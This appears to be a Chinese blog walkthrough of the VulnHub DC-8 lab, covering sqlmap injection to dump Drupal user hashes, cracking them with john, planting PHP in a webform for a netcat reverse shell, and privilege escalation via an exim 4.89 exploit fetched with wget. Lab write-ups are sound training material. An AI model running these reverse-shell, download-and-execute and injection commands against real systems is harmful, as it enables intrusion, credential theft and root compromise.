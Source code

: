 ```yaml
---
title: DC-8复现
permalink: /archives/54148/
createTime: 2022-12-01 14:57:00
tags: 
  - vulnhub
  - 渗透测试
---
```


# DC-8复现

## 描述

> DC-8是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战有点混合，既是实际挑战，又是关于在Linux上安装和配置的双因素身份验证是否可以防止Linux服务器被利用的“概念证明”。
>
> 这个挑战的“概念验证”部分是由于Twitter上被问到一个关于双因素身份验证和Linux的问题，也是由于@theart42的建议。
>
> 此挑战的最终目标是绕过双因素身份验证，获取root并读取唯一的标志。
>
> 除非您尝试通过SSH登录，否则您甚至可能不知道安装和配置了双因素身份验证，但它肯定在那里并且正在做它的工作。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确认目标机器的IP以及开启的端口

![image-20221201150628772](https://img.crzliang.cn/img/image-20221201150628772.png)

访问80端口，点击welcome to DC-8发现这个url有点问题，猜想有sql注入

![image-20221201151645623](https://img.crzliang.cn/img/image-20221201151645623.png)

扫描目录看看有没有登录口

```bash
dirsearch -u 192.168.71.130 -e * -x 403 --random-agent
```

![image-20221201160557499](https://img.crzliang.cn/img/image-20221201160557499.png)

## SQl注入

在nid参数后面加入一个`'`后出现了sql报错直接**sqlmap**跑一下

### 爆破数据库

```bash
sqlmap -u "http://192.168.71.130/?nid=1" --dbs
```

得到两个库，其中`information_schema`是为了提供了访问数据库元数据的方式，所以可以暂时忽略

![image-20221201152316983](https://img.crzliang.cn/img/image-20221201152316983.png)



### 爆破表

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db --tables
```

一共88个表，包含有**users**表，

![image-20221201153542043](https://img.crzliang.cn/img/image-20221201153542043.png)

![image-20221201153559541](https://img.crzliang.cn/img/image-20221201153559541.png)

### 爆破列

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users --columns
```

得到16列

![image-20221201153635852](https://img.crzliang.cn/img/image-20221201153635852.png)

### 爆破字段名

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users -C name,pass,uid --dump
```

得到两个用户名和经过加密的密码，将密码保存好，利用**john**进行爆破

![image-20221201154123064](https://img.crzliang.cn/img/image-20221201154123064.png)

## 爆破密码

```bash
john dc8_pass.txt
```

爆出一个：turtle

![image-20221201154620496](https://img.crzliang.cn/img/image-20221201154620496.png)

## 登录后台

爆出密码后尝试利用登录，前面信息收集的时候就有发现其登录入口，经过测试，发现爆破出来的是john的密码

![image-20221201160940053](https://img.crzliang.cn/img/image-20221201160940053.png)

在`Content->Contact Us->Webform->Form settings`里发现有可利用点，可以写入php代码

![image-20221201161518710](https://img.crzliang.cn/img/image-20221201161518710.png)

## 反弹shell

编写php文件直接执行命令反弹shell

```php
<?php
exec("nc -e /bin/bash 192.168.71.128 6666");
?> 
```

反弹成功

![image-20221201162252984](https://img.crzliang.cn/img/image-20221201162252984.png)

切换交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 提权

find查找suid权限的命令

```bash
find / -perm -4000 -print 2>/dev/null
```

![image-20221201162431555](https://img.crzliang.cn/img/image-20221201162431555.png)

其中的exim4是可利用进行提权的

首先查看exim4的版本

![image-20221201162654433](https://img.crzliang.cn/img/image-20221201162654433.png)

搜索exim 4.89的漏洞

![image-20221201162930425](https://img.crzliang.cn/img/image-20221201162930425.png)

复制文件到当前目录

```bash
cp /usr/share/exploitdb/exploits/linux/local/46996.sh hack.sh  
```

利用python起http服务进行传输

```bash
python -m http.server 6666
```

进入tmp文件夹下载文件

```bash
cd /tmp	//tmp文件夹
wget 192.168.71.128:6666/hack.sh	//下载目标文件
```

![image-20221201163259748](https://img.crzliang.cn/img/image-20221201163259748.png)

但是这个文件是不可执行的，所以要对其赋予执行权限

```
ls -l	//查看当前目录下的所有文件权限
chmod 777 hack.sh	//赋予文件可读、可写和可执行权限
```

![image-20221201163421012](https://img.crzliang.cn/img/image-20221201163421012.png)

脚本有两种方式，使用第二种利用**netcat**再次进行反弹shell

```bash
./hack.sh -m netcat		//执行脚本
nc -e /bin/bash 192.168.71.128 31337		//反弹shell
```

![image-20221201164356827](https://img.crzliang.cn/img/image-20221201164356827.png)

## flag

进到根目录下找到flag

![image-20221201164614977](https://img.crzliang.cn/img/image-20221201164614977.png)